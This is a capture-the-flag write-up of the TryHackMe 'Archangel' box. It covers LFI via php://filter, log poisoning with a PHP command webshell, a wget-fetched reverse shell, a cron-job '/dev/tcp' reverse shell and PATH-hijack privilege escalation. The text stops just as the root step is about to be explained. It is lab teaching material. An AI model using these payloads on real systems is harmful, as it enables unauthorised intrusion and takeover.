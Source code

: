 ```yaml
---
layout: post
title: Archangel
categories: Privesc
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

# NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![](https://i.ibb.co/TWTBYN0/mafia.png)

# LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.
![](https://i.ibb.co/kQRKnYg/wfuzz.png)
And we get a hit for **robots.txt**. which when we visit the page looks something like this.
![](https://i.ibb.co/vv2SyZj/robots.png).

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.
![](https://i.ibb.co/VYM0RyP/control.png)
We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![](https://i.ibb.co/pnGV1tK/testbase64.png)
![](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
# Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

# SHELL
So we are going to get a sample php reverseshell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next we are going to set up a python server on our machine. 
Next we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machin e.
![](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine
Then run **&cmd=php revshell.php**
going back to our listener we have a shell.

![](https://i.ibb.co/gzQvS34/nc.png)


# Switch user.

So next we can get a better shell by using **python3 -c "import pty;pty.spawn('/bin/bash -i')"**

Then we can check out the cron jobs **cat /etc/crontab**

We can actually see that a job runs as archangel every minute. Which we can read and write.
So we then run **echo "bash -i >& /dev/tcp/ip/1235 0>&1" >> /opt/helloworld.sh**

Then run another listener and wait for a minute. Coffee break.

# ROOT

Moving into the secret directory we can see a file called backup. Running does not do much so we are going to do something crazy. 
So type:
 1. **echo '/bin/bash -p' > cp**
 2. **chmod 777 cp**
 3. **export PATH=/home/archangel/secret:$PATH**
 4. **echo $PATH**
 5. **./backup**

Okay let us dig into what jus happened.



